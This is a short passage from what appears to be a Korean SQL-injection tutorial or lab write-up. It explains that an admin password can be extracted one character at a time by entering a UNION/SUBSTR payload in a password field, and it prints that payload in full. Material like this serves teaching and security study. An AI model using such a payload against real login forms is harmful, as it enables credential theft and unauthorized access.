 ![alt text](assets/img/sql_features/image_5.png)

그리고 이제 차례대로 User PW: 필드에 `UNION`과 `SUBSTR`을 사용하여 아래와 같이 비밀번호를 한 글자씩 알아낼 수 있다.

```sql
" union select if(substr(upw, 2, 1) = 'w', "T", "F") from users where uid = "admin" --
```
